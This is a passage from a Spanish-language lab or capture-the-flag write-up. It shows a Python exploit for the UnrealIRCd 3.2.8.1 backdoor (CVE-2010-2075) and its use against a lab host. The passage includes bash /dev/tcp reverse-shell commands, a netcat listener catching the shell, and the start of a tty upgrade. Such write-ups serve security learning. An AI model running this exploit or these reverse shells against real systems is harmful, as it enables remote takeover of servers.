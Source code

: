```python3
    sys.exit(1)

#CTLR + C
signal.signal(signal.SIGINT,Exiting)

def get_arguments():
    parser = optparse.OptionParser()
    parser.add_option('-t', '--target', dest='Target', help='Target IP')
    parser.add_option('-p', '--port', dest='port', help='Open Port with IRCD', type=int)
    parser.add_option('-c', '--cmd', dest='cmd', help='Comman to execute')
    (options, arguments) = parser.parse_args()
    if not options.Target:
        parser.error("[-] Please indicate the Target IP -t, for more information... --help")
    if not options.port:
        parser.error("[-] Please indicate the port -p, for more information... --help")
    if not options.cmd:
        parser.error("[-] Please indicate the command to execute -c. Example: --cmd 'bash -i >& /dev/tcp/10.10.10.10/443 0>&1', for more information... --help")
    return options

def RCExplotation(Target,port,cmd):
    print('Creating connection')
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print('Creating payload')
    payload = '{} {}'.format(BACKDOOR_PREFIX, cmd)
    s.connect((Target,port))
    rce = s.recv(1024).decode()
    print('[*]Sending Payload...')
    s.send(payload.encode())
    rce = s.recv(1024).decode()

def main():
    options = get_arguments()
    RCExplotation(options.Target, options.port, options.cmd)

if __name__ == '__main__':
    main()
```
El exploit del CVE:2010-2075 estará subido en mi <a href='https://github.com/FredBrave/CVE-2010-2075-UnrealIRCd-3.2.8.1'>GitHub</a>. Al probar el exploit me funciono por lo que pude obtener una consola.
```bash
$ python3 CVE-2010-2075.py -t 10.0.2.119 -p 6667 -c 'bash -c "bash -i >& /dev/tcp/10.0.2.48/443 0>&1"'
Creating connection
Creating payload
[*]Sending Payload...

$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.0.2.48] from (UNKNOWN) [10.0.2.119] 49250
bash: cannot set terminal process group (360): Inappropriate ioctl for device
bash: no job control in this shell
server@real:~/irc/Unreal3.2$ whoami
server
server@real:~/irc/Unreal3.2$
```
# Shell como root
Empiezo un tratamiento de la tty.
```bash
server@real:~/irc/Unreal3.2$ script /dev/null -c bash
script /dev/null -c bash
```